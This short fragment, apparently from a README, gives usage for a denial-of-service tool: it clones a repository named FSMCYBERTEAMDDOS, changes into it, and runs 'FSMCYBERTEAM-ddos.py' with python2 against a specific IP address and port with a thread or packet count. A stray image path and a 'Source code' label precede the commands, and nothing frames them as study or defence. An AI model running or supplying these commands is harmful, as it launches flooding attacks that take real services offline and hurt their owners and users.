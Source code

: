 git clone https://github.com/FSMCYBERTEAM/FSMCYBERTEAMDDOS
CD FSMCYBERTEAMDDOS
python2 FSMCYBERTEAM-ddos.py 104.27.190.77 8080 100
